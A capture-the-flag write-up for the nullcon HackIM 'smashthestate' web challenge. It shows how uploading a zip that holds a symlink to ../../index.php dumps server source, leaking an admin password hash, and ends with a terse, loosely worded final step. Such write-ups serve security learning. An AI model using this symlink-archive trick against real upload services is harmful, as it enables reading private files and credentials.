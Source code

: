# nullcon HackIM : smashthestate

**Category:** Web
**Points:** 400
**Solves:** 
**Description:**

> This beautiful website for testing zip files contains a replica of a vulnerability found in a well known bug bounty site. 
> 
> Log in with rob:smashthestate then exploit the vulnerability to gain access to the 'admin' account and the flag. 
> 
> Automated tools and bruteforcing will not help you solve this challenge.
> 
> 
> <http://54.152.101.3/>

[index.php](./index.php)
## Write-up

**by d1rt**

Logging into the server with the `rob:smashthestate` combo takes you to a form that promises to allow you to upload and confirm zip file contents, if you upload a zip file containing a directory you'll be given an error from the `cat` command printed on screen.

`cat: /var/www/html/tmp/upload_18vrn198vcn191nv1/test: Is a directory`

Make a local symlink, then store it in a zip file that preserves symlinks

```
$ ln -s ../../index.php flag
$ zip -y flag.zip flag
  adding: flag (stored 0%)
```

Upload this to the server and you'll get the source code of `index.php` dumped to the page

```
<!--?php
$FAKE_DATABASE = array (
    "rob" =--> "60df0ab1a78fd0d95a4cfa4b0854931b", // smashthestate
    "admin" =&gt; "6ec4b9f5cd1d4fd45746f8e592aa321e",
);
$page = $_GET['page'];

switch ($page) {
    case "login":
        echo "trying to log in";
        $user = $_POST['user'];
        $pass = $_POST['pass'];
...snip...
```

There is a section the appears to dump the flag:

```
    case "admin_login_help":
        session_start();
        if(!isset($_SESSION['login_code']) ){
            $_SESSION['login_code'] = bin2hex(openssl_random_pseudo_bytes(18));
            echo "khack has disabled zis function, please click <a href="?page=code_submit">here</a>\n";
        }
        else {
            echo "khack has disabled the function for zis session";
        }
        break;
    case "code_submit":
        session_start();
        $code = $_POST['code'];
        if (isset($code) &amp;&amp; isset($_SESSION['login_code'])) {
            if ($code == "khack" ){
                echo "Flag: ";
                passthru("sudo /bin/cat /var/www/html/flag");
            }
            else {
                echo "Invalid code";
            }
        }
        else {
            echo "<form action="?page=code_submit" method="POST">Please input the login code:<input name="code"><input type="submit" value="submit"></form>";
        }
```

**it is a lie and always dumps an empty flag**

just submit the md5i hash of the admin password, done.


## Other write-ups and resources

* <https://0x90r00t.com/2016/02/03/hackim-2016web-400-smashthestate-write-up/>
